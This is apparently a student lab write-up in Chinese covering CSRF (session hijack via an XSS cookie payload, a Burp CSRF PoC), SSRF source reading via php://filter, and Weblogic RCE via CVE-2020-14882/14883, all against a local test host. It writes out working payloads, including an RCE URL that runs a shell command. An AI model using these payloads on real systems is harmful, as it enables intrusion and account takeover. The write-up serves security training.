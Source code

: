 ## 1.CSRF

- DVWA-High 等级

在谷歌浏览器登录DVWA的用户smithy，利用XSS漏洞输入<img src=x Onerror=alert(document.cookie)>获取smithy用户的cookie

PHPSESSID=u9fvg4fescp78va2qhk7s4di03; security=high

![1](C:\Users\七号程序员詹姆师\Desktop\week10\1.png)

在火狐浏览器登录admin用户，在CSRF模块修改密码，然后用Burp抓包，修改security等级为low，把当前cookie中的PHPSESSID替换为smithy的，然后去掉参数User_token

![2](C:\Users\七号程序员詹姆师\Desktop\week10\2.png)

此时火狐浏览器登录账户为smithy，security等级为low，提示密码已经修改

![3](C:\Users\七号程序员詹姆师\Desktop\week10\3.png)

- 使用 Burp 生成 CSRF 利用 POC

首先在谷歌浏览器登录allen的账号，可以看到此时个人信息都为初始值

![4](C:\Users\七号程序员詹姆师\Desktop\week10\4.png)

在火狐浏览器登录lucy的账号，修改个人信息，然后用Burp抓包

![5](C:\Users\七号程序员詹姆师\Desktop\week10\5.png)

![6](C:\Users\七号程序员詹姆师\Desktop\week10\6.png)

利用Burp生成POC

![7](C:\Users\七号程序员詹姆师\Desktop\week10\7.png)

复制HTML代码，然后在谷歌浏览器打开，点击提交

![8](C:\Users\七号程序员詹姆师\Desktop\week10\8.png)

此时谷歌浏览器登录的allen个人信息被修改

![9](C:\Users\七号程序员詹姆师\Desktop\week10\9.png)

## 2.SSRF（file_get_content），要求获取 ssrf.php 的源码；

利用 php://filter 来读取php源码；为了防止源码被解析，对代码进行编码，在read参数中加入 convert.base64-encode ；同时ssrf.php在ssrf文件夹下，和ssrf_fgc.php在同一个文件夹下，所以URL链接为 

http://10.0.0.131/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php

![10](C:\Users\七号程序员詹姆师\Desktop\week10\10.png)

利用解码工具进行解码，得到ssrf.php源码，源码保存在了记事本里![11](C:\Users\七号程序员詹姆师\Desktop\week10\11.png)

## 3.远程代码执行漏洞：Weblogic RCE。

利用CVE-2020-14882漏洞未授权访问到后台管理页面，URL链接为

http://10.0.0.131:7001/console/css/%252e%252e%252fconsole.portal

![12](C:\Users\七号程序员詹姆师\Desktop\week10\12.png)

然后再借助漏洞CVE-2020-14883，访问下列URL链接，在服务器tmp文件夹下新建文件hack

10.0.0.131:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/hack');")



在容器后台进行查看，发现确实在tmp文件夹下新建了hack文件

![13](C:\Users\七号程序员詹姆师\Desktop\week10\13.png)